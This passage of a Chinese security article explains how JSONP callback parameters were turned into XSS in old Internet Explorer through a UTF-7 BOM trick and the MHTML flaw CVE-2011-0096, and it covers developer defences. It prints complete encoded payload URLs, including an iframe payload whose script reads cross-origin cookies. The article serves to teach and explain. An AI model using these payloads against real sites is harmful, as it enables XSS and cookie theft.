 ```{"id" : "1","name" : "知道创宇"}```
这样的防御机制是比较传统的攻防思维，对输出点进行 xss 过滤。又是一个看上去很完美的解决方案，但是往往都是“事与愿违”。当年( 2011 年)一个 utf7-BOM 就复活了 n 个 XSS 漏洞。这种攻击方式主要还是存在与 IE 里(注在 IE 较新版本里已经“修复”) 也就是当我们在 callback 点输出 +/v8 这样的 utf7-BOM 的时候， IE 浏览器会把当前执行的编码认为是 utf7 ,所以我们通过 utf7 提交的 XSS 代码会被自动解码并执行。如：

	http://127.0.0.1/getUsers.php?callback=%2B%2Fv8%20%2BADwAaAB0AG0APgA8AGIAbwBkAHkAPgA
	8AHMAYwByAGkAcAB0AD4AYQBsAGUAcgB0ACgAMQApA
	DsAPAAvAHMAYwByAGkAcAB0AD4APAAvAGIAbwBkAHk
	APgA8AC8AaAB0AG0APg-%20
其中：

	%2B%2Fv8
	%20%2BADwAaAB0AG0APgA8AGIAbwBkAHkAPgA8AHMAY
	wByAGkAcAB0AD4AYQBsAGUAcgB0ACgAMQApADsAPAAv
	AHMAYwByAGkAcAB0AD4APAAvAGIAbwBkAHkAPgA8AC8
	AaAB0AG0APg-%20
URLdecode 为：

	+/v8
	+ADwAaAB0AG0APgA8AGIAbwBkAHkAPgA8AHMAY
	wByAGkAcAB0AD4AYQBsAGUAcgB0ACgAMQApADs
	APAAvAHMAYwByAGkAcAB0AD4APAAvAGIAbwBkA
	HkAPgA8AC8AaAB0AG0APg-

其中 +/v8  为 utf7-BOM ，后面的为我们注入的 utf-7 编码后的 XSS 代码的：

```<htm><body><script>alert(1);</script></body></htm>```

参考：[http://hi.baidu.com/hi_heige/item/357831ab6932239a14107346](http://hi.baidu.com/hi_heige/item/357831ab6932239a14107346)

这次利用 utf7-BOM 的方法是一个非常有代表性的通用方法，IE 后面的升级也是做一定的防御，另外在开发者角度也给出了防御方法直接强制指定 Content-Type里的编码 ( Content-Type: application/json; charset=utf-8 )  对于现在的浏览器上，虽然没有比较通用的技巧，但是对于开发者本事过滤的机制一样可能存在各种绕过的可能。

看来上面提到的 a 和 b 两点的防御缺一都可能出问题，那么我们使用“ a + b 方案”，也就是两者都上是不是很安全了不会出现问题了呢？一切皆有可能，我们拭目以待！

 
###三、其他文件格式（ Content-Type ）与 JSON
 

1、MHTML 与 JSONP

在 2011 年 IE 曾经出现过一个听过 mhtml 协议解析跨域的漏洞：MHTML  Mime-Formatted Request Vulnerability  ( CVE-2011-0096 )  https://technet.microsoft.com/library/security/ms11-026 而当时的一个常见利用就是利用 JSONP 调用机制里的 Callback 函数名输出点：

	<iframe src="mhtml:http://127.0.0.1/getUsers.php?callback=Content-Type%3A%20multipart%2Frelated%3B%20boundary%3D_boundary_by_mere%0D%0A%0D%0A--_boundary_by_mere%0D%0AContent-Location%3Acookie%0D%0AContent-Transfer-Encoding%3Abase64%0D%0A%0D%0APGJvZHk%2BDQo8aWZyYW1lIGlkPWlmciBzcmM9Imh0dHA6Ly93d3cuODB2dWwuY29tLyI%2BPC9pZnJhbWU%2BDQo8c2NyaXB0Pg0KYWxlcnQoZG9jdW1lbnQuY29va2llKTsNCmZ1bmN0aW9uIGNyb3NzY29va2llKCl7DQppZnIgPSBpZnIuY29udGVudFdpbmRvdyA%2FIGlmci5jb250ZW50V2luZG93IDogaWZyLmNvbnRlbnREb2N1bWVudDsNCmFsZXJ0KGlmci5kb2N1bWVudC5jb29raWUpDQp9DQpzZXRUaW1lb3V0KCJjcm9zc2Nvb2tpZSgpIiwxMDAwKTsNCjwvc2NyaXB0PjwvYm9keT4NCg%3D%3D%0D%0A--_boundary_by_mere--%0D%0A!cookie"></iframe>

[详见：《Hacking with mhtml protocol handler》](http://www.80vul.com/mhtml/Hacking%20with%20mhtml%20protocol%20handler.txt)

这个点就充分利用了 callback 输出点直接输出一个 mhtml 文件格式，然后利用 ```<iframe> ```调用 mhtml 标签解析并执行 html 及 javascript 代码，这也就是一个通用性的 XSS 漏洞（ UXSS ），随后微软紧急推出了解决方案及漏洞补丁程序！而对于开发者防御而已在微软推出安全补丁之前这个漏洞影响 Google 等国际大型网站，到时 Google 为了防御这类补丁，启用的防御措施是，在 JSON 输出 callback 时，在文件开头增加了多个换行回车让远程 mhtml 调用时解析失败。
在攻击角度来说，这个充分利用了计算机体系里各种文件格式识别机制，这个也和 Callback 直接在 json 文件开头输出的突然优势！在这个思维的引导下，后面还出现各种各样的文件格式加载带来的安全问题，比如 CSS 文件格式加载导致的类“ JSON 劫持”的安全问题、JS 加载及各种文件格式编码带来的安全问题等等。历史进程里往往会出现各种惊人的相识，JSONP 与文件格式的各种传奇还在上演...


```